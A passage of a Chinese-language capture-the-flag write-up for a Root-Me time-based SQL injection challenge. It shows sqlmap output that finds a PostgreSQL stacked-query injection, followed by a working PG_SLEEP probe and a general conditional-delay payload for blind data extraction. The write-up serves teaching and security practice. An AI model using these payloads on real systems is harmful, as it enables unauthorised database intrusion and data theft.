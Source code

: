 ```shell
[14:00:47] [INFO] testing 'MySQL inline queries'
[14:00:48] [INFO] testing 'PostgreSQL inline queries'
[14:00:48] [INFO] testing 'Microsoft SQL Server/Sybase inline queries'
[14:00:48] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[14:00:54] [INFO] GET parameter 'member' appears to be 'PostgreSQL > 8.1 stacked queries (comment)' injectable
it looks like the back-end DBMS is 'PostgreSQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'PostgreSQL' extending provided level (1) and risk (1) values? [Y/n] Y
[14:01:15] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[14:01:15] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[14:01:23] [INFO] checking if the injection point on GET parameter 'member' is a false positive
GET parameter 'member' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 196 HTTP(s) requests:
---
Parameter: member (GET)
    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: action=member&member=2;SELECT PG_SLEEP(5)--
---
[14:01:58] [INFO] the back-end DBMS is PostgreSQL
web application technology: Nginx
back-end DBMS: PostgreSQL
[14:01:58] [INFO] fetched data logged to text files under 'C:\Users\Administrator\AppData\Local\sqlmap\output\challenge01.root-me.org'

[*] ending @ 14:01:58 /2019-03-16/
```

通过 sqlmap 的输出结果可知，这是一个 PostgreSQL 数据库，所测试的 HTTP 请求可以作为一个 `stacked queries` （堆叠注入点），探针是 `2;SELECT PG_SLEEP(5)--` 。

> **堆叠注入** 是指可以通过分号 `;` 拼接多条 SQL 。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B52%5D%20%5B45P%5D%20SQL%20injection%20-%20Time%20based/imgs/04.png)

------------

## 构造通用 payload

对探针稍微改造下，可以构造这样的通用 payload ：

`2;(SELECT (CASE WHEN ([注入点]) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--`

其中 `[注入点]` 替换成用于获取信息的**布尔注入 SQL** ，当布尔结果为 true 时，页面延时 5 秒，否则延时 0 秒。

> 可能是题目做过延时上限限制，**最长的延时时间实际只有 3 秒**。

------------

## 布尔注入 + 二分法获取数据库信息
